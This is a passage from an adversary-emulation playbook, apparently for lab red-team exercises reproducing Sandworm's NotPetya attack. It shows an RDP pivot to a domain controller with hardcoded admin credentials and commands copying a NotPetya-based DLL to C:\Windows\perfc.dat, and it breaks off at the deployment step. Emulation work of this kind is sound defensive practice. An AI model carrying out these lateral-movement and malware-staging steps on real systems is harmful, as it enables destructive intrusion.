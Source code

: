 * https://www.welivesecurity.com/2017/06/30/telebots-back-supply-chain-attacks-against-ukraine/

<br>

## Step 18 - Pivot to DC

:microphone: `voice track`

Sandworm logs into arrakis/10.0.1.4 over RDP using domain credentials (patreides).

Sandworm uploads a DLL based on NotPetya to arrakis (C:\Windows\perfc.dat) over a network share tunneled through the RDP connection.

```
File write: C:\Windows\perfc.dat
```

### :biohazard: Procedures

:warning: go back to your first terminal window; rename to RDP into arrakis. 

RDP into arrakis/domain controller using domain admin credentials.

```bash
# Sandworm Team has used stolen credentials to access administrative accounts within the domain.

xfreerdp +clipboard /u:TESTLAB\\domain.admin /p:"T3stT3@m#123" /v:192.168.30.191 /drive:X,/home/hoangtn/Desktop/VCS-sandworm/Resources/NotPetya/bin/
```

Accept certificate warnings if prompted.

Once logged in, close server manager and any spurious warnings or pop-ups.

Open PowerShell as administrator `(right click > run as administrator > yes)`:

Copy NotPetya from dungeon to arrakis over RDP channel:

```bash
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat
```

```bash
dir C:\Windows\perfc.dat
```

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/

<br>

## Step 19 - Deploy NotPetya

:microphone: `voice track`
